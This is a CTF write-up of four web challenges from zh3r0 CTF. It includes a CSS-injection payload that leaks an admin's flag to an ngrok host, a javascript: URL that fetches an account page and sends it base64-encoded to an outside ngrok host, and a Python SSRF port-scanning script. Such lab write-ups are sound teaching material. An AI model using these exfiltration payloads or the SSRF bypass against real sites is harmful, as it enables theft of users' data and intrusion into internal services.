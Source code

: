 # Web challenge write-ups

Combining these web challenges into one document since I don't feel like making
detailed write-ups.

## Flags

**Category**: web \
**Solves**: 20 \
**Points**: 871 \
**Author**: navy

Here is a website where each user gets a flag. However, only the admin has the
correct flag. Can you guess it?

Mirror 1 - http://web.zh3r0.cf:4444 \
Mirror 2 - http://web.zh3r0.cf:4321 \
Download - [Flags.tar.gz](Flags.tar.gz)

### Solution

> Solved with @anirudhb, who did most of the work

```ejs
        <meta http-equiv='Content-Security-Policy' content="script-src 'nonce-<%=bytes%>'; object-src 'none'; base-uri 'none'require-trusted-types-for 'script'; frame-src 'none'">
...
        <div class="flagDisplay">
            <p>Your flag is</p>
            <%- flagProfile %>
        </div>
        <div class="form">
            <form action="/check" method="post">
                <fieldset>
                    <legend>Check if your flag matches the admin's</legend>
                    <div class="flag">
                        <input type="flag" name="flag" value="<%= flag %>">
                    </div>
                        <button type="submit" name="submit" value="submit">Check</button>
                </fieldset>
            </form>
```

We have reflected HTML in `flagProfile`. Our goal is to exfiltrate the admins
flag from

```ejs
<input type="flag" name="flag" value="<%= flag %>">.
```

Script execution is blocked by CSP, but we can inject CSS to leak characters
one by one:
```html
<style>
.flag { display: block !important; }
input[value^="zh3r0{a"] { background-image: url(http://d92615501434.ngrok.io/a); }
input[value^="zh3r0{b"] { background-image: url(http://d92615501434.ngrok.io/b); }
input[value^="zh3r0{c"] { background-image: url(http://d92615501434.ngrok.io/c); }
...
input[value^="zh3r0{8"] { background-image: url(http://d92615501434.ngrok.io/8); }
input[value^="zh3r0{9"] { background-image: url(http://d92615501434.ngrok.io/9); }
input[value^="zh3r0{_"] { background-image: url(http://d92615501434.ngrok.io/_); }
input[value^="zh3r0{{"] { background-image: url(http://d92615501434.ngrok.io/%7B); }
input[value^="zh3r0{}"] { background-image: url(http://d92615501434.ngrok.io/%7D); }
</style>
```

Unfortunately the challenge organizers really messed up the infra on this one.
I would constantly be logged out for no reason, making it annoying to test the
exploit. Also why did they have to make the flag so long?
```
zh3r0{this_is_a_flag_02b0482ec93d9f5688d5e0562fc2e2db}
```

Solve script in `flags_solve.py`

## Original Store

**Category**: web \
**Solves**: 22 \
**Points**: 842 \
**Author**: DreyAnd

Hi! Check out our car dealership platform - the Original Store at
[Store](http://35.200.166.215:5555/). We also have a contest running right now
and who has the best car wins! You can send us your car's images at
[bot](http://35.200.166.215:5556/).

## Solution

Sourceless XSS challenge. After some 20 min of guessing I found an unintended solution

```
javascript:fetch('/account.php').then((r)=>r.text()).then((r)=>window.location.href='http://abca940c718f.ngrok.io/'+window.btoa(r))
```

```
zh3r0{4dm1n_l0ves_0nly_0r1g1n4ls_br0}
```

For reference,
[Carmen San Diego](https://gist.github.com/bluepichu/6898d0f15f9b58ba5a0571213c3896a2)
from [PlaidCTF 2021](https://ctftime.org/event/1199) had the same unintended
solution.

> Author's intended solution: https://dreyand.github.io/zh3r0-ctfv2/original-store/

## Original Store v2

**Category**: web \
**Solves**: 20 \
**Points**: 871 \
**Author**: DreyAnd

## Overview

Exactly the same as the previous one, except now the cookie is `HttpOnly:
true`. Fortunately(?) this doesn't fix the unintended solution:

## Solution

```
javascript:fetch('/account.php').then((r)=>r.text()).then((r)=>window.location.href='http://abca940c718f.ngrok.io/'+window.btoa(r))
```

```
zh3r0{4dm1n_h4tes_car_st34l3rs_br0}
```

## Baby SSRF

**Category**: web \
**Solves**: 40 \
**Points**: 453 \
**Author**: ZyperX

Yet another server challenge :)

Link - http://web.zh3r0.cf:6969

## Solution

> Solved with @anirudhb

Weird challenge with no source provided. There's a page where you can request a
URL and get the headers returned. For some reason `localhost` is blocked, but
that's easily bypassed using `http://localtest.me` or a 302 redirect.

We guessed that we had to scan ports on `localhost` and the flag would
magically appear in the header.

Unfortunately, my connection is super slow so I just rented a VPS in India
which scanned 5000 ports in under a minute:

```python
import requests
import sys

chall_url = "http://web.zh3r0.cf:6969"
redir_url = "http://localtest.me"


def check_port(port: int):
    data = {"url": f"{redir_url}/{port}"}
    res = requests.post(f"{chall_url}/request", data)
    return res.text


start = int(sys.argv[1])
end = int(sys.argv[2])

for port in range(start, end):
    print(f"[*] Checking port {port}")
    html = check_port(port)
    if "Learn about URL" not in html:
        print(f"[+] Found something on {port}")
        print(f"[*] HTML: {html}")
        open(f"port_{port}.txt", "w").write(html)
```

Turns out the port was 9006.

```
zh3r0{SSRF_0r_wh4t3v3r_ch4ll3ng3}
```
